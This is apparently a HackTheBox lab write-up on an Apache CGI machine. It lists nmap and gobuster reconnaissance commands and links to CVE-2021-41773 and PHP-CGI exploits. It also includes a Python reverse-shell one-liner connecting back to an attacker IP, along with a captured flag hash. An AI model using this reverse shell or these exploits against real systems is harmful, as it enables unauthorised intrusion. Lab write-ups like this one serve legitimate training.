










## Reconnaissance

### nmap 

```
nmap -sC -sV -O -oN apacheCGI_full 10.129.96.43
```



```
nmap -p- -sV --reason -oN apacheCGI_full 10.129.96.43
```




### Path Brute Force

```
gobuster dir -u http://10.129.96.43 -w /usr/share/wordlists/dirb/common.txt
```







### CGI Path




### Search Exploit 





- [Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution (RCE)](https://www.exploit-db.com/exploits/50383)
- [Apache + PHP < 5.3.12 / < 5.4.2 - cgi-bin Remote Code Execution](https://www.exploit-db.com/exploits/29290)

## Exploit 

- [(GITHUB)CVE-2021-41773](https://github.com/thehackersbrain/CVE-2021-41773/blob/main/exploit.py)





- persistance 
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.17.145",1336));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

- Get flag : 
```
d28de5b21a255f7a8daf988aa8e3abeb
```


## Privilege Escalation


## Reference 

### Privilege Escalation Tips

- [Linux for Pentester: Find Privilege Escalation](https://www.hackingarticles.in/linux-for-pentester-perl-privilege-escalation/)
- [GTFOBins](https://gtfobins.github.io/#chsh)
### Others

- [Wget – Download files to Specific Directory](https://tecadmin.net/wget-download-files-to-specific-directory/)
- [Reverse Shell generator](https://www.revshells.com/)

###### tags: `HackTheBox` `linux` `VeryEasy` `Shellshock` `CGI`
 
